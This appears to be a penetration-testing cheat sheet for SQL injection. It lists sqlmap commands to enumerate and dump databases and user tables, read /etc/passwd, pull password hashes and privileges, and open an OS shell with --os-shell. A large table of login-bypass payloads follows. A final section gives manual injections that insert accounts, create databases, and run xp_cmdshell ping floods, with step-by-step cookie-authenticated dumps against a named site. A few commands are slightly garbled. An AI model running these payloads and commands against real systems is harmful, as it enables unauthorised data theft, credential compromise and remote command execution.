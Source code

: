 # SQL Injection

## Sqlmap Examples

| Task | Command |
| :--- | :--- |
| Vulnerable Site | [http://www.site.com/section.php?id=51](http://www.site.com/section.php?id=51) |
| Initial Test | [http://www.site.com/section.php?id=51](http://www.site.com/section.php?id=51)' |
| SQLMap POST parameter Scan: | sqlmap.py -u [http://host/u.php](http://host/u.php) --data="id=u1" |
| SQLMap Discover Databases: | sqlmap.py -u [http://www.sitemap.com/section.php?id=51](http://www.sitemap.com/section.php?id=51)' --dbs |
| SQLMap find tables in Database: | sqlmap.py -u [http://www.site.com/section.php?id=51](http://www.site.com/section.php?id=51)' --tables -D safecosmetics |
| SQLMap get columns in a table: | sqlmap.py -u [http://www.site.com/section.php?id=51](http://www.site.com/section.php?id=51)' --columns -D safecosmetics -T users |
| SQLMap get data from a table: | sqlmap.py -u [http://www.site.com/section.php?id=51](http://www.site.com/section.php?id=51)' --dump -D safecosmetics -T users sqlmap.py -u [http://www.site.com/section.php?id=51](http://www.site.com/section.php?id=51)' --dump -D |
| SQLMap get shell access: | sqlmap.py -u [http://www.site.com/section.php?id=51](http://www.site.com/section.php?id=51)' --os-shell |
| SQLMap: Fetch the list of users and roles: | qlmap.py -u "[http://localhost/weak.php?id=10](http://localhost/weak.php?id=10)" --users --passwords --privileges --roles --threads=10 sqlmap -u [http://vulnscripts/sqli.php?name=a](http://vulnscripts/sqli.php?name=a) --users --passwords --privileges --roles --threads=10 |
| SQLMap getting the current user, current database and hostname information: | sqlmap.py -u [http://localhost/weak.php?id=10](http://localhost/weak.php?id=10)' --current-user --is-dba --current-db -hostn |
| SQLMap Read file: | sqlmap.py -u [http://localhost/weak.php?id=10](http://localhost/weak.php?id=10)' --file-read=/etc/passwd --threads=10 |
| SQLMap - Log the details: | sqlmap -l /tmp/burp\_log.log --scope="site.org" |
| SQLMap - Add custom prefix: | sqlmap -u [http://receipt.sec642.org/receipt.php?id=mmo\_1](http://receipt.sec642.org/receipt.php?id=mmo_1) --prefix='"' |
| SQLMap Exploitation Steps: Test to see if input is vulnerable | sqlmap -u [http://vulnscripts/sqli.php?name=a](http://vulnscripts/sqli.php?name=a) |
| SQLMap Exploitation Steps: With -b argument sqlmap can get the version information of the database. | sqlmap -u [http://vulnscripts/sqli.php?name=a](http://vulnscripts/sqli.php?name=a) -b |
| To see the current user, current database and hostname information we can use following command: | sqlmap -u [http://vulnscripts/sqli.php?name=a](http://vulnscripts/sqli.php?name=a) --current-user --is-dba --current-db --hostname --threads=10 |
| You can use sqlmap to get the shell from the target system using '--os-shell' option or can execute a system command using '--os-cmd=OSCM' | sqlmap -u [http://vulnscripts/sqli.php?name=a](http://vulnscripts/sqli.php?name=a) --os-shell |
| Scan url for union + error based injection with mysql backend and use a random user agent + database dump: | sqlmap -u "[http://meh.com/meh.php?id=1](http://meh.com/meh.php?id=1)" --dbms=mysql --tech=U --random-agent --dump |
| Sqlmap check form for injection: | sqlmap -o -u "[http://meh.com/form/](http://meh.com/form/)" --forms |
| Retrieve current user, database, and whether user is an admin: | sqlmap.py -u [http://host/u.php?id=u1](http://host/u.php?id=u1) --current-user --current-db --is-dba |

## SQLI Example Payloads

| Command | Command | Command | Command |
| :--- | :--- | :--- | :--- |
| '-' | ' ' | '&' | '^' |
| '\*' | ' or ''-' | ' or '' ' | ' or ''&' |
| ' or ''^' | ' or ''\*' | "-" | " " |
| "&" | "^" | "\*" | " or ""-" |
| " or "" " | " or ""&" | " or ""^" | " or ""\*" |
| or true-- | " or true-- | ' or true-- | "\) or true-- |
| '\) or true-- | ' or 'x'='x | '\) or \('x'\)=\('x | '\)\) or \(\('x'\)\)=\(\('x |
| " or "x"="x | "\) or \("x"\)=\("x | "\)\) or \(\("x"\)\)=\(\("x | ' or 1=1 -- |
| or 1=1 | or 1=1-- | or 1=1\# | or 1=1/\* |
| admin' -- | admin' \# | admin'/\* | admin' or '1'='1 |
| admin' or '1'='1'-- | admin' or '1'='1'\# | admin' or '1'='1'/\* | admin'or 1=1 or ''=' |
| admin' or 1=1 | admin' or 1=1-- | admin' or 1=1\# | admin' or 1=1/\* |
| admin'\) or \('1'='1 | admin'\) or \('1'='1'-- | admin'\) or \('1'='1'\# | admin'\) or \('1'='1'/\* |
| admin'\) or '1'='1 | admin'\) or '1'='1'-- | admin'\) or '1'='1'\# | admin'\) or '1'='1'/\* |
| 1234 ' AND 1=0 UNION ALL SELECT 'admin' | admin" -- | admin" \# | admin"/\* |
| admin" or "1"="1 | admin" or "1"="1"-- | admin" or "1"="1"\# | admin" or "1"="1"/\* |
| admin"or 1=1 or ""=" | admin" or 1=1 | admin" or 1=1-- | admin" or 1=1\# |
| admin" or 1=1/\* | admin"\) or \("1"="1 | admin"\) or \("1"="1"-- | admin"\) or \("1"="1"\# |
| admin"\) or \("1"="1"/\* | admin"\) or "1"="1 | admin"\) or "1"="1"-- | admin"\) or "1"="1"\# |
| admin"\) or "1"="1"/\* |  |  |  |

## More sqli Examples

Manual SQLI:

```text
blah' or 1=1 -- in the Username field
blah';insert into login values ('john','apple123'); -- in the Username
blah';create database mydatabase; -- in the Username field
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- in the Username field
```

Sqlmap:

```text
Grab cookie with Inspect Element (right click webpage)
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie value which you have copied in step #5”> --dbs
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”same as above”> -D moviescope --tables
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”same as above”> -D moviescope -T User_Login --columns
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”same as above”> -D moviescope -T User_Login --dump
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”same as above”> --os-shell
```

